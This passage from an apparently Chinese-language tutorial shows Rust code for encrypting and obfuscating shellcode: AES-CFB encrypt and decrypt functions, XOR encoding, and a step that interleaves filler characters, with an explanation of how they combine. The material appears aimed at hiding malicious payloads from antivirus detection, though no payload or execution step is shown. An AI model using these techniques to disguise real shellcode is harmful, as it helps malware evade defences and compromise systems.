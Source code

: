 ```bash
    let mut buffer = [0u8; 2560];
    buffer[..pos].copy_from_slice(shellcode);

    let ciphertext = cipher.encrypt(&mut buffer, pos).unwrap();

    hex::encode(ciphertext)
}

fn dec(encrypted: &str, key: &str, iv: [u8; 16]) -> Vec<u8> {
    let binding = hex::decode(encrypted).expect("Decoding failed");
    let ciphertext = binding.as_slice();

    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let mut buf = ciphertext.to_vec();
    let shellcode = cipher.decrypt(&mut buf).unwrap();

    shellcode.to_vec()
}
```

### 添加随机字符

同样先在`Cargo.toml`文件中添加下面的依赖。

```bash
[dependencies]
hex = "0.4.3"
```

下面是结合异或加密和添加随机字符的代码，`xor_encrypt`将对 shellcode 与 key 进行异或，使用`hex::encode`将异或结果转为十六进制字符串返回，方便后面添加随机字符。`add_random`迭代`xor_encrypt`返回的字符串的每个字符，并在每次迭代时添加一个随机字符。最后，使用 `hex::encode` 将结果转为十六进制字符串返回。`xor_decrypt`和`rm_random`是对应的二次异或和删除随机字符的函数。

```bash
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    hex::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = hex::decode(encrypted).expect("Error");

    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}

fn add_random(xor_string: &str, key: &str) -> String {
    let mut result = String::new();

    for (i, c) in xor_string.chars().enumerate() {
        result.push(c);
        result.push(key.chars().nth(i % key.len()).unwrap());
    }
    hex::encode(&result)
}

```